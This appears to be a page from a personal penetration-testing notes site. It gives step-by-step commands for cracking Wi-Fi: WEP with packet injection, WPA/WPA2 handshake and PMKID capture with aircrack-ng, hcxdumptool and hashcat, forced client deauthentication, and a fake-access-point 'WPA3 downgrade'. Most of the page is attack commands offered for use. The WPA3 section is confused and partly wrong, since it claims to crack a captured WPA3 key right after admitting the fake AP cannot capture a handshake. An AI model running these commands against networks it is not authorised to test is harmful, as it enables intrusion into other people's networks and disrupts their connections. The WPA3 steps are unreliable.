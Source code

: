 ```yaml
---
title: Wireless
layout: page
parent: network
---
```


# Wireless

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

---

## Setup

### Monitor mode

First off, you need to set up your wifi interface in monitor mode. To do so, you need to know the name of your wifi interface. You can find it by running the following command:

```bash
ip addr
```

This will list all the network interfaces on your system. Look for the one that corresponds to your wifi adapter. It is usually named `wlan0`, `wlan1`, `wlo1` or something similar.
Once you have identified your wifi interface, you can set it to monitor mode using the following commands :

```bash
sudo airmon-ng check kill
sudo airmon-ng start <interface>  # start monitor mode
```

### Network scanning

Now, you can scan for wifi networks using the following command:

```bash
sudo airodump-ng <monitor_interface> #eg wlan0mon
```

This will display a list of all the wifi networks in range, and note the BSSID (MAC address) and channel of the target network.

## WEP cracking

### Capture packets

To crack WEP, you need to capture packets from the target network. You can do this using the following command:

```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> --write <output_file> <monitor_interface>
```

You want a lot of Data packets (not just Beacons).

### Speed up the process

To speed up the process, you can use the following command to inject packets into the network:

```bash
sudo aireplay-ng --fakeauth 0 -a <BSSID> <monitor_interface>
```

This will authenticate you to the network and allow you to capture more packets, then you can use the following command to generate ARP requests:

```bash
sudo aireplay-ng --arpreplay -b <BSSID> <monitor_interface>
```

This will generate a lot of traffic and help you capture more packets.

### Cracking the WEP key

Once you have captured enough packets (at least 50000 IVs, recommended 200000), you can crack the WEP key using the following command:

```bash
aircrack-ng <output_file>
```

This will attempt to crack the WEP key using the captured packets. If successful, it will display the WEP key in the terminal.

## WPA/WPA2 cracking

### Option 1 (easier)

To crack WPA/WPA2, you need to capture a 4-way handshake. To do so, you have to capture the handshake when a client connects to the network, so start the airodump-ng command to capture packets:

```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> --write <output_file> <monitor_interface>
```

If a client is connected to the network, you will see the handshake in the terminal. If not, you can use the following command to deauthenticate a client and force it to reconnect in another terminal:

```bash
sudo aireplay-ng --deauth 10 -a <BSSID> -c <STATION> <monitor_interface>
```

Once you have captured the handshake, you can crack the WPA/WPA2 key using a wordlist. You can use the following command to crack the key:

```bash
aircrack-ng -w <wordlist> <capture_file>
```

This will attempt to crack the WPA/WPA2 key using the wordlist provided. If successful, it will display the WPA/WPA2 key in the terminal.
Note that if the ESSID is hidden, you will need to use the `-e` option to specify the ESSID when cracking the key.

### Option 2 (harder but better)

A way faster and more successful alternative to the previous method is to use `hcxdumptool` to capture the handshake or the PMKID and then crack it with `hashcat`. This makes it more likely to succeed than the previous method since we could only use the handshake with it, and this method allows us to use `hashcat` to crack the hash which is way faster than `aircrack-ng`.

First, we need to do a dump using `tcpdump` :

```bash
sudo tcpdump -s 65535 -y IEEE802_11_RADIO "wlan addr3 <BSSID (eg.aabbccddeeff)> or wlan addr3 ffffffffffff" -ddd > <bpf_output_file>.bpf
```

Then, we can use `hcxdumptool` to capture the handshake or the PMKID, and it is mandatory to add band information to the channel number (e.g. 12a):

- band a: NL80211_BAND_2GHZ
- band b: NL80211_BAND_5GHZ
- band c: NL80211_BAND_6GHZ

Thus, you can use the following command:

```bash
sudo hcxdumptool -i <monitor_interface> -c <channel>[a,b,c] --bpf=<bpf_input_file>.bpf -w <output_capture_file>.pcapng
```

This will create a pcapng file with the captured packets, you need to wait for either the EAPOL handshake symbolized by the '3' or the PMKID symbolized by the 'P' to have a + under them to know that you have captured one of them, allowing you to try to crack the hash.

Now, we need to convert the pcapng file to the specific hash that `hashcat` can use. To do this, we can use the following command:

```bash
hcxpcapngtool -o <output_file>.hc22000 <input_capture_file>.pcapng
```

Finally, we can use [`hashcat`](https://n4c.hadi.diy/cracking/hash.html#hashcat) to crack the hash. You will need to import the `cracking` module. You can use the following command to try to crack the hash using a wordlist and a rule file, but bruteforce is also possible for wireless cracking.

```bash
hashcat -m 22000 -a 0 -o <output_file> -r /tmp/OneRuleToRuleThemStill/OneRuleToRuleThemStill.rule <hash_file>.hc22000 /tmp/wordlists/passwords/most_used_passwords.txt -w 4 --opencl-device-types 1,2 
```

## WPA3 downgrade

Note that this only allows us to shutdown traffic on the network, but not to capture the handshake. To do this, we need to change our approach on the WPA2 AP part.

### Capture packets

To crack WPA3, you need to capture packets from the target network. You can do this using the following command:

```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> <monitor_interface>
```

### Deauthenticate a client

To deauthenticate a client and force it to reconnect, you can use the following command:

```bash
sudo aireplay-ng --deauth 10 -a <BSSID> -c <STATION> <monitor_interface>
```

### Fake a WPA2 AP

To fake a WPA2 AP, you can use the following command:

```bash
sudo airbase-ng -e <SSID> -c <channel> -P -C 30 -Z 4 <monitor_interface>
```

This will create a fake AP with the specified SSID and channel, however, this is not a true WPA2 AP, which does not allow us to capture the handshake. To do this, we need to use a different method. This is the only thing missing to make WPA3 cracking work.

### Option 1 (easier)

Conceal the WPA3 handshake by capturing it with airodump-ng:

```bash
sudo airodump-ng --channel <channel> --bssid <fake_BSSID> --write <output_file> <monitor_interface>
```

Once you have captured the handshake, you can crack the WPA3 key using a wordlist. You can use the following command to crack the key:

```bash
aircrack-ng -w <wordlist> <capture_file>
```

This will attempt to crack the WPA3 key using the wordlist provided. If successful, it will display the WPA3 key in the terminal.

### Option 2 (harder but better)

Same as WPA2, if you need more explanation check this [part](#option-2-harder-but-faster-and-more-successful) of the WPA2 cracking section.

```bash
sudo tcpdump -s 65535 -y IEEE802_11_RADIO "wlan addr3 <fake_BSSID (eg.aabbccddeeff)> or wlan addr3 ffffffffffff" -ddd > <bpf_output_file>.bpf
```

```bash
sudo hcxdumptool -i <monitor_interface> -c <channel>[a,b,c] --bpf=<bpf_input_file>.bpf -w <output_capture_file>.pcapng
```

```bash
hcxpcapngtool -o <output_file>.hc22000 <input_capture_file>.pcapng
```

Reminder that you need to import the cracking module to use [`hashcat`](https://n4c.hadi.diy/cracking/hash.html#hashcat) to crack the hash.

```bash
hashcat -m 22000 -a 0 -o <output_file> -r /tmp/OneRuleToRuleThemStill/OneRuleToRuleThemStill.rule <hash_file>.hc22000 /tmp/wordlists/passwords/most_used_passwords.txt -w 4 --opencl-device-types 1,2 
```

## Resetting the interface

Once you are done with the cracking, you can reset your wifi interface to its normal mode using the following command:

```bash
sudo airmon-ng stop <monitor_interface>
```

This will stop the monitor mode and reset the interface to its normal mode.
You can also use the following command to restart the network manager:

```bash
sudo systemctl restart NetworkManager
```

This will restart the network manager and allow you to connect to wifi networks again.
If you are using a different network manager, rebooting your system should also work.
